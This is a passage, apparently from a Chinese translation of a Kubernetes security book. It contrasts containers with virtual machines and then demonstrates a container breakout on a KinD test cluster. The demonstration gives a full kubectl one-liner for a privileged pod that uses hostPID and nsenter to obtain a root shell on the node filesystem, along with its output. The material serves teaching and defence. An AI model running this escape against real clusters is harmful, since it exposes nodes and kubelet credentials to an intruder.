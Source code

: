 相比之下，虚拟机正如其名称所示，是一个完整的虚拟系统。它模拟自己的硬件，拥有独立的内核等等。虚拟机管理程序（Hypervisor）为虚拟机提供隔离，甚至到硅层，而容器之间在节点上的隔离非常少。

有一些容器技术会在自己的虚拟机上运行容器。容器仍然只是一个进程。

当容器不在运行时，它们仅仅是一个“tarball 的 tarballs”，其中每个文件系统层都存储在一个文件中。镜像仍然存储在主机系统、多个主机系统，或是容器之前运行或拉取过的地方。

如果你对“tarball”这个术语不熟悉，它是由 `tar` Unix 命令创建的一个文件，该命令用于将多个文件归档并压缩成一个文件。术语“tarball”是由创建该文件的命令 tar（即 **磁带归档** 的缩写）和 ball（指的是文件的捆绑包）组合而成的。

相反，虚拟机有自己的虚拟磁盘，用于存储整个操作系统。尽管有一些非常轻量级的虚拟机技术，但虚拟机和容器之间的大小通常存在数量级的差异。

虽然有些人把容器称为轻量级虚拟机，但这完全不正确。它们的隔离方式不同，而且需要更加关注它们在节点上运行的细节。

从这一部分，你可能会觉得我们在暗示容器不安全。实际上，真相完全相反。保护 Kubernetes 集群及其上运行的容器需要对细节的关注，以及对容器与虚拟机不同之处的理解。由于许多人了解虚拟机，容易把它们与容器进行比较，但这样做会让你处于不利地位，因为它们是截然不同的技术。

一旦你理解了默认配置的限制以及由此带来的潜在危险，就可以解决这些“问题”。

## 容器突破

容器越界指的是容器内的进程访问了底层节点。一旦进入节点，攻击者就可以访问所有其他 Pod 以及节点在环境中的所有能力。容器越界还可能是挂载本地文件系统的问题。来自 [`securekubernetes.com`](https://securekubernetes.com) 的一个示例，最初由 Isovalent 的 Field CTO Duffie Cooley 提出，使用容器挂载本地文件系统。在 KinD 集群上运行此操作会打开对节点文件系统的读写权限：

```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
If you don't see a command prompt, try pressing Enter. 
```

上述代码中的`run`命令启动了一个容器，该容器添加了一个对本示例至关重要的选项，`hostPID: true`，它允许容器共享主机的进程命名空间。你可以看到其他几个选项，如`--mount`和设置`privileged`为`true`的安全上下文设置。所有这些选项加起来将允许我们写入主机的文件系统。

现在你已经进入容器，执行 `ls` 命令查看文件系统。注意，提示符是 `root@r00t:/#`，这表明你已经在容器中，而不是在主机上：

```
root@r00t:/# ls
bin  boot  build  dev  etc  home  kind  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var 
```

为了证明我们已经将主机的文件系统映射到容器中，请创建一个名为 `this_is_from_a_container` 的文件，并退出容器：

```
root@r00t:/# touch this_is_from_a_container
root@r00t:/# exit 
```

最后，让我们查看主机的文件系统，以确认容器是否创建了该文件。由于我们使用 KinD 部署了一个单一工作节点，因此我们需要使用 Docker 命令 `exec` 进入工作节点。如果你使用的是本书中的 KinD 集群，工作节点的名称为 `cluster01-worker`：

```
docker exec -ti cluster01-worker ls /
bin  boot  build  dev  etc  home  kind  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  this_is_from_a_container  tmp  usr  var 
```

就是这样！在这个例子中，启动了一个容器并挂载了本地文件系统。从 Pod 内部创建了 `this_is_from_a_container` 文件。退出 Pod 后进入节点容器时，文件仍然存在。一旦攻击者获取了节点文件系统的访问权限，他们也就能够访问 kubelet 的凭证，从而可能暴露整个集群。
